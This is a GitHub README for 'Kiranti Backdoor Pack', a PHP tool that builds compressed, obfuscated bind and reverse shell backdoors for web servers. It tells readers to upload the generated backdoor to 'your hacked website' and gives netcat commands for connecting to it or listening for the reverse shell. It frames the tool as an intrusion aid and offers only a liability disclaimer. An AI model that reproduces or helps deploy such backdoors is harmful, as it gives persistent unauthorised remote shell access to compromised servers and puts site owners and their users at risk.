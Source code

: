 # kirantipack

```
██╗  ██╗██╗██████╗  █████╗ ███╗   ██╗████████╗██╗
██║ ██╔╝██║██╔══██╗██╔══██╗████╗  ██║╚══██╔══╝██║
█████╔╝ ██║██████╔╝███████║██╔██╗ ██║   ██║   ██║
██╔═██╗ ██║██╔══██╗██╔══██║██║╚██╗██║   ██║   ██║
██║  ██╗██║██║  ██║██║  ██║██║ ╚████║   ██║   ██║
╚═╝  ╚═╝╚═╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝   ╚═╝   ╚═╝
```                            
                    Version: 1.2

Kiranti Backdoor Pack

This is a project for backdooring webserver without using web-based shell

### How To Use
* Download this project
* Generate your own backdoor with: 
```
$ php packer.php -o -b -z -l -v -h

-o		Output Filename
-b		Backdoor Type [bind|reverse]
-z		Compression [gzdeflate|gzencode|gzcompress]
-l		Level Compression [0-9]
-v		Display the version
-h		Display this message
```
* Upload to your hacked website and access
* We will use netcat for connect to our backdoor

for bind connect:
```
$ nc -v [server ip] 1203
```

for reverse connect:
```
$ nc -lvp 0907
```

PS: 1203 and 0907 is default port

### Disclaimer

I as the author assume no liability and not responsible for any misused this project

### Updates

[x] Removing option -t and Carbylamine encoded source
